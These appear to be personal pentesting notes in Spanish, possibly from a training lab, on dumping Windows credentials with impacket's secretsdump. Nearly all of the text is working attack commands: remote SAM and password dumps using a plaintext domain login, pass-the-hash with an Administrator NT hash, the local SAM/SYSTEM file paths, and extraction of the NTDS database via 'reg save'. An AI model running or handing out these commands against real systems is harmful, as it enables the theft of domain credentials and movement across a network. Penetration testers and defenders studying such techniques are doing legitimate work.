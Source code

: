 En remoto (muy util)

SAM hashes (uid:rid:lmhash:nthash)

Para dumpear solo la sam:

Para dumpear todas las contraseñas:
```
secretsdump.py  'medtech.com/yoshi:Mushroom!@172.16.122.82'
```

![[Pasted image 20230406203551.png]]

* PPH
```
secretsdump.py  'EXTERNAL/Administrator@192.168.166.247' -hashes 'aad3b435b51404eeaad3b435b51404ee:2f2b8d5d4d756a2c72c554580f970c14'

```
Muy util los cache logon


En local la podemos encontrar en:

```
\Windows\System32\SAM
\Windows\System32\SYSTEM


impacket-secretsdump -system system -sam sam
```


# DUMPING NTDS

`reg save HKLM\system system

impacket-secretsdump -system system -ntds ntds.dit LOCAL


Se puede ejecutar en remoto si se tienen permisos